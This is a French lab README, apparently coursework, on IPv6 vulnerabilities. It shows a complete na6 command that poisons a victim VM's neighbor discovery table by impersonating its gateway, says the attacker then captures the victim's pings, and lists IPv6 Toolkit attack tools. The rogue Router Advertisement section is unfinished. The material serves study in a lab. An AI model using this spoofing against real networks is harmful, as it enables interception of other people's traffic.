

# Découverte de quelques vulnérablité d'IPv6

[[_TOC_]]

## Todos

* Corruption de la table NDP
    * Outil à utiliser (présenter l'outil à utiliser)
    * Check la doc et exécuter l'attaque depuis le pirate (ajouter notes)
    * Check le trafic réseau (faire un gif)
* Introduction de rogues RA sur un réseau IPv6
    * Outil à utiliser (présenter l'outil à utiliser)
    * Check la doc et exécuter l'attaque depuis le pirate (ajouter notes)
    * Check le résultat de l'attaque (faire un gif)


## Tableau d'addressage

| Name     | IP            | MAC               | Description |
|----------|:-------------:|:-----------------:|-------------|
| VM1      | 192.168.33.1  | 00:50:00:00:01:00 |Gateway      |
| VM2      | 192.168.33.10 | 00:50:00:00:04:00 |Victime      |
| Attacker | 192.168.33.11 | 00:50:00:00:05:00 |Attaquant    |

## Corruption de la table NDP

### Outil à utiliser
```
na6
```

### Commande
```
na6 -i ens3 -s 2001:db8:1:0:250:ff:fe00:100 -S 00:50:00:00:01:00 -d 2001:db8:1:0:250:ff:fe00:400 -t 2001:db8:1:0:250:ff:fe00:100 -E 00:50:00:00:05:00 -l
```

Arguments :
- **-s** : IPv6 Source Address
- **-S** : Link-layer Destination Address
- **-d** : IPv6 Destination Address
- **-t** : ND IPv6 Target Address
- **-E** : Source link-layer address option

### Résultats



On constate donc que :
- `vm2` ping `vm1` (sa Gateway)
- `attacker` lance la commande na6 malicieuse
- `attacker` récupère ainsi les pings émis par `vm2` (on peut le vérifier à l'aide de la commande *tcpdump*)

## Introduction de rogues RA sur un réseau IPv6

### Outil à utiliser

### Notes sur l'attaque

### Résultats


## Les Outils présents dans la suite IPv6ToolKit

```bash
addr6: An IPv6 address analysis and manipulation tool.  
blackhole6: A troubleshooting tool which can find IPv6 where in the network topology packets with specific IPv6 Extension Headers are being dropped.  
flow6: A tool to perform a security asseessment of the IPv6 Flow Label.  
frag6: A tool to perform IPv6 fragmentation-based attacks and to perform a security assessment of a number of fragmentation-related aspects.  
icmp6: A tool to perform attacks based on ICMPv6 error messages.  
jumbo6: A tool to assess potential flaws in the handling of IPv6 Jumbograms.  
na6: A tool to send arbitrary Neighbor Advertisement messages.  
ni6: A tool to send arbitrary ICMPv6 Node Information messages, and assess possible flaws in the processing of such packets.  
ns6: A tool to send arbitrary Neighbor Solicitation messages.  
path6: A versatile IPv6-based traceroute tool (which supports extension headers, IPv6 fragmentation, and other features not present in existing traceroute implementations).  
ra6: A tool to send arbitrary Router Advertisement messages.  
rd6: A tool to send arbitrary ICMPv6 Redirect messages.  
rs6: A tool to send arbitrary Router Solicitation messages.  
scan6: An IPv6 address scanning tool.  
script6: A set of scripts/commands that make rather complex and frequent tasks easy.  
tcp6: A tool to send arbitrary TCP segments and perform a variety of TCP-based attacks.  
udp6: A tool for sending arbitrary IPv6-based UDP datagrams.  
```
